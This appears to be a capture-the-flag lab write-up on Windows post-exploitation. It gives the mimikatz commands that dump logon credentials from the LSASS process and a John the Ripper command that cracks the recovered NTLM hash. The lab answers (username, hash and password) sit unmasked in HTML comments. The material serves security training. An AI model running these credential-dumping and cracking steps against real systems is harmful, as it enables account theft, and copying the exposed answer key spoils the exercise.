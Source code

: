 # DAY 24 - Learning From The Grinch

## Learning Objectives

In this task you will:

* Understand post exploitation
* Understand how passwords are stored on Windows
* Dump passwords from LSASS process on Windows
* Crack Password Hashes

## Dumping Password hashes
A standard tool used to retrieve password hashes from memory is called `mimikatz` (https://github.com/gentilkiwi/mimikatz).

For this exercise, we'll be using the `sekurlsa` module.

## Mimikatz

### Check priv
```ps
mimikatz # privilege::debug
```
If we have privilege (`privilege::debug`) we can run `securlsa` module and use `logonpasswords` to extract logged in users.

```ps
mimikatz # sekurlsa::logonpasswords
```

## Tasks

### What is the username of the other user on the system?

```
e***y
```
<!-- emily -->


### What is the NTLM hash of this user?

```
8af**********************cf5
```
<!-- 8af326aa4850225b75c592d4ce19ccf5 -->

### What is the password for this user?


#### Crack hash
!! we can not run this command on `John The Ripper` found in apt repos.

Looks like it has to be built from sources.

May be need to build `Jumbo` - Community supported version of `JtR`.


```bahs
echo '8af**********************cf5' > hash.txt
```
```bash
john --format=NT -w=/opt/wordlists/rockyou.txt hash.txt --pot=output.txt
```

```bash
cat output.txt

$NT$8af3************************cf5:12********90
```
<!-- 1234567890 -->
